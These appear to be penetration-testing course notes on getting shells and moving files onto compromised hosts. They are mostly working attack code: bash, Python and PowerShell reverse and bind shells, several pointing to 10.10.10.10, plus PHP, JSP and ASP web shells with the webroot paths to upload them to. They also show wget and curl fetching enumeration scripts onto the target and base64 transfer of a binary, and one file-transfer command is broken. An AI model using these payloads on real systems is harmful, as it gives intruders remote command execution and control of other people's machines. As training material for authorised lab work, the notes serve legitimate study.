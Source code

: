 # shells

to enumerate the system or take further control over it or within its network, beyond the initial exploit, we need a reliable connection that gives us direct access to the system's shell, i.e., bash or powershell, so we can thoroughly investigate the remote system for our next move.

without a working set of login credentials, we would not be able to utilize methods like ssh or winrm, we'll need to executing commands on the remote system first, to gain access to these services in the first place.

the other method of accessing a compromised host for control and remote code execution is through shells.

- reverse shell: connects back to our system and gives us control through a reverse connection.
- bind shell: waits for us to connect to it and gives us control once we do.
- web shell: communicates through a web server, accepts our commands through http parameters, executes them, and prints back the output.

## reverse shell

step 1: start netcat locally with `nc -lvnp 1234`

- -l listen mode, to wait for a connection to connect to us.
- -v verbose mode, so that we know when we receive a connection.
- -n disable dns resolution and only connect from/to ips, to speed up the connection.
- -p 1234 port number netcat is listening on, and the reverse connection should be sent to.

step 2: find the connect back ip with `ip a`, then find the correct adapter. this would typically be eth0, wlan0 or tun0 (when using a vpn)

step 3: issue the reverse shell command.

this last step relies on the type of os the target machine runs. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md lists many remote shell execution strategies.

examples include

```
bash:

bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

bash:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

powershell

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

once the remote host connects to our machine, we can type away:

```
listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## bind shell

step 1: bind the shell to a port on the remote host to wait for us to connect, e.g.

```
bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

python

python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

powershell

powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

for reference, see https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md

step 2: now we use netcat locally to connect to the remote machine and can issue shell commands:

```
ChrisVomRhein@htb[/htb]$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## web shell

step 1: write the web shell. examples include:

```
php

<?php system($_REQUEST["cmd"]); ?>

jsp

<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

asp

<% eval request("cmd") %>
```

step 2: upload the web shell to the host's webroot. defaults for different web servers are:

```
- Apache: /var/www/html/
- Nginx: /usr/local/nginx/html/
- IIS: c:\inetpub\wwwroot\
- XAMPP: C:\xampp\htdocs\
```

step 3: access the web shell through curl or browser, e.g.

```
ChrisVomRhein@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# file transfers

## wget

- create a http server hosting a file on the local machine, e.g. `cd /tmp && -m http.server 8000`.
- download the file to the target machine, e.g. `wget http://10.10.14.1:8000/linenum.sh`, alternatively use curl, e.g. `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`

## scp

granted we have obtained ssh user credentials on the remote host, we can "push" files from out machine via scp as follows: `scp linenum.sh user@remotehost:/tmp/linenum.sh`

## base64

in some cases, we may not be able to transfer the file. for example, the remote host may have firewall protections that prevent us from downloading a file from our machine. in this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it. for example, if we wanted to transfer a binary file called shell, we can base64 encode it as follows: `base64 shell -w 0`

Now, we can copy this base64 string, go to the remote host, and use base64 -d to decode it, and pipe the output into a file: `echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell`

## validating file transfers

to validate the format of a file, we can run the file command on it:

```
> file shell

shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

as we can see, when we run the file command on the shell file, it says that it is an elf binary, meaning that we successfully transferred it. to ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. on our machine, we can run md5sum on it:

```
> md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

now, we can go to the remote server and run the same command on the file we transferred:

```
> md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

as we can see, both files have the same md5 hash, meaning the file was transferred correctly. there are various other methods for transferring files. you can check out the file transfers module for a more detailed study on transferring files.
